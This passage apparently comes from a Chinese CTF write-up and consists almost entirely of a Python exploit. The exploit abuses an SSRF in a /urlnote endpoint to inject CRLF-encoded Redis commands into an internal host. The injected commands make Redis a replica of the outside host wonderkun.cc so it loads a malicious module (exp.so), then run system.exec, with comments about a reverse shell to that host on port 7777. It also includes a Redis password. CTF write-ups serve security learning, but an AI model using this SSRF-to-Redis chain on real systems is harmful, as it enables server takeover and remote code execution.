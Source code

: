 最后的exp如下：

```python

def exp3(host):
    '''
       /urlnote  
       ssrf connect redis to getshell 
    '''

    url = "http://{}/urlnote".format(host)

    session = requests.Session()

    header = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    # send payload 1 ， set redis to slave 
    payload = "title=payload1&url=http://172.16.0.3:6379/?a=1%0d%0a*2%0d%0a$4%0d%0aauth%0d%0a$13%0d%0aredis123456aB%0d%0a*4%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$6%0d%0aexp.so%0d%0a*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$12%0d%0awonderkun.cc%0d%0a$5%0d%0a21000%0d%0a"

    res = session.post(url,data=payload,headers=header)

    if res.status_code != 200 :
        print("[*] ssrf connect redis error!")
        return 

    # send payload 2 , set timeout 
    payload = "title=payload2&url=http://192.168.0.100:7777/?a=test" # add a host ，without route to it

    res = session.post(url,data=payload,headers=header)

    if res.status_code != 200 :
        print("[*] ssrf connect redis error!")
        return 

    # send paylaod 3, let redis reverse shell to wonderkun.cc:7777 

    payload = "title=payload3&url=http://172.16.0.3:6379/?a=1%0d%0a*2%0d%0a$4%0d%0aauth%0d%0a$13%0d%0aredis123456aB%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$6%0d%0aMODULE%0d%0a$4%0d%0aLOAD%0d%0a$8%0d%0a./exp.so%0d%0a*3%0d%0a$7%0d%0aSLAVEOF%0d%0a$2%0d%0aNO%0d%0a$3%0d%0aONE%0d%0a*2%0d%0a$11%0d%0asystem.exec%0d%0a$2%0d%0als%0d%0a"

    res = session.post(url,data=payload,headers=header)

    if res.status_code != 200 :
        print("[*] ssrf connect redis error!")
        return 
    
    url = "http://{}/".format(host)

    res = session.get(url)

    # nc -l -p 7777 , return shell to wonderkun.cc:7777 
    # set adminnote to RCE go server. 
    '''
```